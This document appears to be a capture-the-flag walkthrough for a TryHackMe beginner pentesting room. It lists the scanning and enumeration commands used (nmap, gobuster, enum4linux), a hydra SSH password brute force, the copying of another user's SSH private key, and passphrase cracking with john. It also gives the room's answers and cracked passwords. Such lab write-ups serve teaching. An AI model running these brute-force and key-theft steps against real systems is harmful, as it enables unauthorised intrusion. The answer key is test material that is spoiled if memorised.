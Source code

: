 # Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Namp
- Find the services exposed by the machine
    - sudo nmap -sV -sC -oN [Path]/[Result File name].txt [IP]
    - Findings:
        - Open port: 22 / 80 / 139 / 445 / 8009 / 8080
        - Service exposed : smb
    - picture: [Basic_Pentesting_1.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
    - picture: [Basic_Pentesting_2.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_2.png)
### Gobuster
- Find directories
    - sudo gobuster dir -u [IP] -w [path]/directory-list-2.3-medium.txt
    - picture: [Basic_Pentesting_3.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_3.png)

- *What is the name of the hidden directory on the web server(enter name without /)?*
    - **Answer**: development
### Analyze development folder
- Connect to /devolpment
    - [IP]/development
        - 2 files available: **dev.txt** and **J.txt**
        - picture: [Basic_Pentesting_4.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_4.png)
    - Analyze these 2 files
        - **dev.txt**
        > I'm using version 2.5.12

        > SMB has been configured

        > I got Apache set up. Will put in our content later.
        - **J.txt**
        > /etc/shadow to make sure we don't have any weak credentials,

        > and I was able to crack your hash really easily
### Search user - enum4linux
- For this step, we can use **enum4linux**
    - sudo enum4linux -a [IP]
    - result: [Basic_Pentesting_5.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_5.png)
 - What is the username?
    - **Answer**: jan
- What is the name of the other user you found(all lower case)?
    - **Answer**: kay
### Brute force Jan account
- For this step, we can use hydra
    -  hydra -l jan -P [path]/rockyou.txt ssh://[IP]
    - result: [Basic_Pentesting_6.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_6.png)
- What is the password?
    - **Answer**: armando

### Gain access to the machine
- For this step, we use SSH
    - picture: [Basic_Pentesting_7.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_7.png)
- What service do you use to access the server(answer in abbreviation in all caps)?
    - **Answer**: SSH
- Check /etc/passwd
    - picture: [Basic_Pentesting_8.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_8.png)
- Move to kay directory
    - /home/kay
- Check all files, hidden files included
    - ls -la
    - picture: [Basic_Pentesting_9.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_9.png)
    - Check all folders available. **.ssh** is accessible. We have public and private key.
    - We can access the private key **id_rsa**
        - Copy the private key
        - Create file on your local machine and try to access the targeted machine through SSH with kay private key
            - ssh -i id_rsa kay@[IP]
        - Result: We need password/passphrase
        - picture: [Basic_Pentesting_10.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_10.png)
### Obtain  hte password
- Previously, under /home/kay, we found the public and private key. We also know, from **J.txt**, the password is really easy to crack.
- From the public **id_rsa.pub**, let's try to obtain the hash by using ssh2john.py
    - /usr/share/john/ssh2john.py ./id_rsa > jay_hash.txt
- Now, use johntheripper
    - john jay_hash.txt
        - Result: 
        > Cost 1 (KDF/cipher [0=**MD5**/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
- This result means the encryption used is **MD5** so we can try with johntheripper to obtain the password
    - john jay_hash.txt --wordlist=[path]/rockyou.txt
        - Result:
        > beeswax
- Try one more time to access the server
    - ssh -i id_rsa kay@[IP]
    - Use the password
    - picture: [Basic_Pentesting_11.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting11.png)
- Navigate. We found the file **pass.bak**
- What is the final password you obtain?
    - **Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    - picture: [Basic_Pentesting_13.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_13.png)


